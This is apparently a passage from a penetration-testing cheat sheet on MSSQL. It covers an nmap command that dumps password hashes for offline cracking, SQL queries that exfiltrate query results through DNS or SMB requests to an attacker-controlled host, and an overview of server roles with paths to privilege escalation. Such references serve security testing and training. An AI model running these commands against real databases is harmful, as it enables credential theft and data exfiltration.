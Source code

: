 ###### Dump hashes

If provided with an user credentials of appropriate DB privileges, the `nmap`
`NSE` script `MSSQL-dump-hashes.nse` can be used to dump the password hashes
from an `MSSQL` instance in a format suitable for cracking by tools such as
`John-the-ripper` / `hashcat`.

```bash
nmap -v -sT -p <PORT> --script=MSSQL-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

###### Out-of-band data exfiltration

| Description | Queries |
|-------------|---------|
| DNS request | `SELECT LOAD_FILE(concat('\\\\', (<SELECT_QUERY_ONE_ROW_RESULT>), '.<HOSTNAME>\\'))` |
| SMB request | `SELECT <...> INTO OUTFILE '\\<HOSTNAME>\<SMB_SHARE>\<OUTPUT_FILE>'` |

### Privileges escalation

###### MSSQL server-level and database-level roles overview

MSSQL provides a roles mechanism which, similarly to groups in the Microsoft
Windows operating system, makes use of security principals that group other
principals and define server-wide or database-wide permissions. Permissions are
the rights to access and modify the service configuration and databases objects.

`Server roles` have a server-wide scope while `database role` are database-wide
in their permissions scope.

There are two types of MSSQL roles:
  - `fixed roles`, that have a fixed and defined set of permissions
  - `user-defined roles`, that can be manually created and assigned permissions

The following table shows the fixed-server roles and their capabilities:

| Fixed-server role name | Description |
|------------------------|-------------|
| `sysadmin` | Encompasses all other roles and can perform any activity in the server. |
| `serveradmin` | Can change server-wide configuration options and shut down the server. `serveradmin` can activate and make use of `xp_cmdshell`. |
| `securityadmin` | Manage logins and is granted the `ALTER ANY LOGIN` permission which allows `GRANT`, `DENY`, and `REVOKE` operations on server-level permissions and database-level permissions (for the database the user granted the role has access to). While `securityadmin` can *not* assign user roles (such as `sysadmin` or `serveradmin`), assigning the `CONTROL SERVER` permission can result in privileges escalation to `sysadmin` (process detailed below). |
| `processadmin` | Can end processes that are running in an instance of SQL Server. |
| `setupadmin` | Can add and remove linked servers by using `Transact-SQL` statements. |
| `bulkadmin` | Can run the `BULK INSERT` statement. |
| `diskadmin` | Manage disk files |
| `dbcreator` | Can create, alter, drop, and restore any database |
| `public` | Every SQL Server login belongs to the `public` server role. When a server principal has not been granted or denied specific permissions on a securable object, the user inherits the permissions granted to `public` on that object. `public` is implemented differently than other roles, and permissions can be granted, denied, or revoked from the role. |
